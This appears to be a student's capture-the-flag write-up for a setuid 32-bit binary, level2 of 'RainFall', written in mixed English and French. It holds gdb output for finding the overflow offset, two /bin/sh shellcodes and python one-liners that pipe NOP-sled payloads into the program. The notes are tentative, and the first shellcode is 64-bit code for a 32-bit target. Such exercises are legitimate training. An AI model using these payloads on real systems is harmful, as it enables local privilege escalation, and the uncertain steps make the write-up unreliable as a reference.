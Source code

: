 First let's look at the type of the file

```console
level2@RainFall:~$ file level2 
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

with buffer overflow pattern generator we see that the offset is at 80 --> pas sur de ca 

explication il faut trouver le nombre de byte pour overwrite EIP car il pointe sur la return adresse de p(), en envoyant 80 on overwrite EBP mais pas EIP
```console
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7ea912f in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
ebp            0x41414141	0x41414141
eip            0xb7ea912f	0xb7ea912f
```
EIP se trouve toujours a EBP + 4 car il point sur la return adresse, donc si on relance le meme proceder avec 84 A
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level2/level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
ebp            0x41414141	0x41414141
eip            0x41414141	0x41414141
```

41 etant l'hexa pour le A majuscule

```
"\x48\x31\xd2"                                  // xor    %rdx, %rdx
"\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      // mov	$0x68732f6e69622f2f, %rbx
"\x48\xc1\xeb\x08"                              // shr    $0x8, %rbx
"\x53"                                          // push   %rbx
"\x48\x89\xe7"                                  // mov    %rsp, %rdi
"\x50"                                          // push   %rax
"\x57"                                          // push   %rdi
"\x48\x89\xe6"                                  // mov    %rsp, %rsi
"\xb0\x3b"                                      // mov    $0x3b, %al
"\x0f\x05";     
```

```console

PAYLOAD --> 84 bytes long
RET ADDRESS -> 10 * 4 bytes long = 40 '0xbffff6fa' \xbf\xff\xf6\xfa --> peut etre a reverse donc \xfa\xf6\xff\xbf
0xbffff6ea -> \xea\xf6\xff\xbf
SHELLCODE -> 30 bytes
NOP -> 10 bytes 84 - 40 - 30 = 14 * '\x90'
print NOP + SHELLCODE + RET
```



```
OLD SHELLCODE
"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

```

```
(python -c 'print ("\x90" * 14 + "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "\xea\xf6\xff\xbf" * 10)'; cat) | ./level2

(python -c 'print ("\x90" * 14 + "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "\xbf\xff\xf6\xfa" * 10)'; cat) | ./level2

----------------------------------------------------------------------------

```console
NEW SHELLCODE
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```
PAYLOAD TOTAL = 84 bytes
RET ADDRESS = 4 bytes
SHELLCODE = 23 bytes
NOP = 84 - 23 - 4 = 57 bytes

RET = "\xea\xf6\xff\xbf"

0xbffff6ea -> "\xea\xf6\xff\xbf"
(ou 0xbffff6da? smaller)
( 0xbffff71a ? bigger) --> "\x1a\xf7\xff\xbf"

NOPE = "\x90" * 57

\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\xea\xf6\xff\xbf

NOP + shellcode + ret
```

```
(python -c 'print( "\x90" * 57 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x1a\xf7\xff\xbf" ) '; cat) | ./level2
```

now we have to find the shellcode to execute a shell inside the program
